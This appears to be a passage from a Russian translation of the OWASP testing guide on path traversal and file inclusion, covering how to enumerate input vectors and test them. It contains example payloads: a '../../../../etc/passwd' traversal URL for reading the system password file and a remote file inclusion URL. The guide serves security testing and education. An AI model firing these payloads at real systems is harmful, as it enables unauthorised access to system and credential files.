 Во время оценки, чтобы обнаружить ошибки обхода пути с включением файла, необходимо пройти через два разных этапа:

1. Перебор входных векторов (анализ каждого входного вектора)
2. Перебор методов тестирования (анализ каждого метода атаки, используемого злоумышленником для эксплуатации уязвимости)

## Задачи тестирования

- Определить точки инъекции, доступные при обходе пути.
- Оценить методы обхода и определить глубину обхода пути.

## Как тестировать

### Тестирование методом чёрного ящика

#### Перебор входных векторов

Чтобы определить, какая часть приложения уязвима для обхода контроля входных данных, необходимо проанализировать все части приложения, которые принимают контент от пользователя. Сюда входят HTTP-запросы GET и POST, а также загрузка файлов и HTML-формы.

Вот несколько примеров вопросов, на которые необходимо ответить на этом этапе:

- Есть ли в запросах параметры, которые можно использовать для операций с файлами?
- Встречаются ли необычные расширения файлов?
- Есть ли интересные имена переменных?
    - `http://example.com/getUserProfile.jsp?item=ikki.html`
    - `http://example.com/index.php?file=content`
    - `http://example.com/main.cgi?home=index.htm`
- Встречаются ли cookie, используемые web-приложением для динамического создания страниц или шаблонов?
    - `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
    - `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`

#### Методы тестирования

Следующим этапом тестирования является анализ функций контроля входных данных, имеющихся в web-приложении. В предыдущем примере, динамическая страница с именем `getUserProfile.jsp` загружает статичную информацию из файла и показывает её содержимое пользователю. Злоумышленник может вставить вредоносную строку `../../../../etc/passwd`, чтобы посмотреть файл со всеми хэшированными паролями системы Linux/UNIX. Очевидно, что такого рода атака возможна только в случае сбоя точки контроля; в соответствии с привилегиями файловой системы само web-приложение должно иметь возможность читать этот файл.

**Примечание:** Чтобы успешно протестировать эту уязвимость, необходимо иметь представление о тестируемой системе и местоположении запрашиваемых файлов. Не имеет смысла запрашивать `/etc/passwd` с web-сервера IIS.

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd
```

Другой распространённый пример — включение контента из внешнего источника:

```text
http://example.com/index.php?file=http://www.owasp.org/malicioustxt
```
